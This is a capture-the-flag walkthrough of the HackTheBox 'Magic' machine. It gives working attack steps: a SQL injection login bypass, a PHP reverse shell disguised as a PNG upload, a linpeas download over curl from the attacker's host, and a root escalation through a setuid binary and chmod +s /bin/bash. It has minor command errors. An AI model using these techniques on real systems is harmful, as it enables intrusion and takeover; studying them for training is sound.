 :PROPERTIES:
:ID:       7ddd19fe-e04b-4fad-b835-7ffc7520692e
:END:
#+title: Magic

* Initial enumeration

We will start with a network scanning with the classic nmap command:

#+begin_src shell
nmap -sC -sV -oN nmap/initial 10.10.10.185
#+end_src

The options that we are using are:
- sC: for the default scripts
- sV: for version enumeration
- oN: for saving the output

You could also use:
- v: for verbose to view the output while it's running since this could take
  a while

We have 22(ssh) and 80(HTTP) open with Apache/2.4.29.

If we go to the page we can see that it's a lot of images and GIF, we can
also view the source but there really not a lot there except for a little hash
in the footer of the page.

Now we can use:
#+begin_src shell
nikto -host 'http://10.10.10.185/' | tee nikto.log
#+end_src

Nikto is a web scanner that can tell us a lot about the vulnerabilities
of a given site.

You can read all about it here https://github.com/sullo/nikto/wiki.
Tee is used to output into a file while, at the same time, it's displayed in
our console.

Also we will use:
#+begin_src shell
gobuster dir -u 'http://10.10.10.185/'
-w /opt/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt
#+end_src

This is a tool for brute forcing directories in a domain and it's subdomains.
It uses a wordlist as an input and compares them so we have to provide that.
Mine is in there but yours could be in a different place so keep that in mind.
Also if you do not have this wordlists you
can download them from: https://github.com/danielmiessler/SecLists

We can look at the hash that was in the footer using:
#+begin_src shell :results output :wrap "quote" :exports both
echo 4d61676963 | xxd -r -p
#+end_src

#+RESULTS:
#+begin_quote
Magic
#+end_quote

So nothing particularly useful.

* Initial access

We can also try default credentials in the login page like "admin" or "root" but
there doesn't seem to be anything there.

But we can also try basic SQL injection like:
" OR 1=1 --
or:
' OR 1=1 #
And this last one worked so we now have access to the page and we can see
that it wants us to upload an image.

Now we can try to leverage the ability to upload files to use a reverse shell in
the server. We know it's using PHP so we need a PHP reverse shell. You can use
different scripts for this. I will use this:
https://github.com/pentestmonkey/php-reverse-shell

I'll modify the IP address in the script with mine. You can look yours with:
#+begin_src shell
ip a s tun0
#+end_src

The problem is that it only allows images and even if we change the file
extension of the script it does not permit it.

* Crafting a bypass

What we can do is look for what is recognized as an image file. In other
words, what is it that it is being used to verify that is an image.
If we look for the headers of a PNG file, that are used by the OS to
know what kind of file it is, we can know that every one of these files starts
with a series of bytes. These are 89 50 4e 47 0d 0a 1a 0a. But we can't just
create a new file, paste this and write our code below. We need the raw bytes.
So we can reuse the xxd command:
#+begin_src shell
echo 89504e470d0a1a0a | xxd -r -p > pngheader
#+end_src

If we concatenate that pngheader file with our script we could bypass the checks.
But if we simply call it php-reverse-shell.png it will not know what to do with it.
Since this is not a valid PNG file. But if we add .php as a first extension the
server will be able to execute it.

So:
#+begin_src shell
cat pngheader php-reverse-shell.php > reverse-shell.php.png
#+end_src

We could also do this with a simple python script:
#+begin_src python :tangle magic.py :comments link
#!/usr/bin/env python3

magic = bytearray([0x89, 0x50, 0x4E, 0x47, 0x0D, 0x0A, 0x1A, 0x0A])

with open("php-reverse-shell.php", "rb") as h:
    content = h.read()

with open("reverse-shell.php.png", "wb") as h:
    h.write(magic + content)
#+end_src

* Access and internal enumeration

In one way or another we now have the file that we want to upload to the server,
the only thing that's left is to connect to it and use the reverse shell.

#+begin_src shell
pwncat -lp 1234 --config data/pwncatrc
#+end_src

Now we have to trigger it going to the
10.10.10.185/images/uploads/reverse-shell.php.png and we should have our
connection.

If it doesn't recognize a shell you can invoke bash. And pwncat has the prompt
--fancy command so you don't have to look at the horrible prompt anymore.

Now we are some random user but at least we are in the machine.

#+begin_src shell
enum -s -a
#+end_src

We could also use linpeas or other tools to do this work for us.

Furthermore we can stabilize our shell using python3 which is present in the
machine the following way:

#+begin_src bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
fg
stty raw -echo
#+end_src

Knowing there are users and images stored here we can look at the database that
is sure to be here.

If we go to /var/www/Magic we can see all of the files that make the website. And
there is a db file so we can take a look there.

This is the most direct way to know some credentials since the username (theseus)
and password (iamkingtheseus) are hardcoded there.

But this seems to be just for interacting with the database since if we try to:
#+begin_src bash
su theseus
#+end_src

The password is not correct.

We also cannot run mysql to try to look at the database. But we can use:
#+begin_src bash
mysqlshow -u theseus -p
#+end_src

And that gives us some information. I only found out typing mysql in the terminal
and pressing TAB to see what was there.

So let's try:
#+begin_src bash
mysqldump -u theseus -p
#+end_src

And we can see that there is a table called 'login' which has an INSERT statement
with 'admin' and 'Th3s3usW4sK1ng' as username and password. Now we can try to
interact with the user using these credentials.

#+begin_src bash
su theseus
#+end_src

Now we are theseus and, event though we are not root, that opens up some more
possibilities.

There is a user.txt file so we have the first flag and start looking for ways to
escalate the privileges.

Let's use linpeas for this. So copy the linpeas.sh file to a directory and from
your machine:
#+begin_src bash
python3 -m http.server 8000
#+end_src

Then from the machine:
#+begin_src bash
curl "http://<yourIP>:8000/linpeas.sh"
chmod +x linpeas.sh
./linpeas.sh
#+end_src

Linpeas tells us that the /bin/sysinfo is owned by root but accessible to us
which means it's a possible vector for privesc.

With:
#+begin_src bash
ltrace /bin/sysinfo
#+end_src

It is clear that the setuid(0) and setgid(0) allows us to abuse what the binary
is executing. And a couple of lines later we can see that it is calling
popen("lshw -short", "r").

That means that we can create a file called lshw and this binary will execute it
with the privileges of the owner, root.

So the file only needs this:
#+begin_src bash
#!/bin/bash
bash -p
#+end_src

The p flag is for keeping the setuid info.

Now:
#+begin_src bash
chomod +x lshw
sysinfo
#+end_src

And now we are root!

I had problems with viewing the output of the commands that I ran as root, not sure
why, but we can simply a:
#+begin_src bash
chmod +s /bin/bash
#+end_src

To make bash available no matter the user and just run /bin/bash -p and cat the
root.txt file to access the flag.
